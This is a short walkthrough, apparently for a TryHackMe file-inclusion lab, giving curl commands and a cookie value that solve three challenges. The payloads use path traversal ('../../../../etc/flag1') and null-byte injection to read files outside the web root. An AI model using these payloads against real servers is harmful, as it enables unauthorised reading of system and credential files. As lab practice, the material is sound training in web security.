 # File Inclusion Challenge Walkthrough

## Flag1

```
curl -v http://{VICTIM MACHINE IP}/challenges/chall1.php -X  POST -d 'file=../../../../etc/flag1' -o flag1.txt

cat flag1.txt
```

The flag is NOT in the usual ```THM{FLAG}``` format.


## Flag2

This is used as a cookie. Once entered, you are going to need to refresh the page. 

```
THM=../../../../etc/flag2%00
```

## Flag3

```
curl -v http://{VICTIM MACHINE IP}/challenges/chall3.php -X  POST -d 'file=/etc/flag3%00' -o flag3.txt

cat flag3.txt
```

Remember that the flag is not in the usual THM format. 
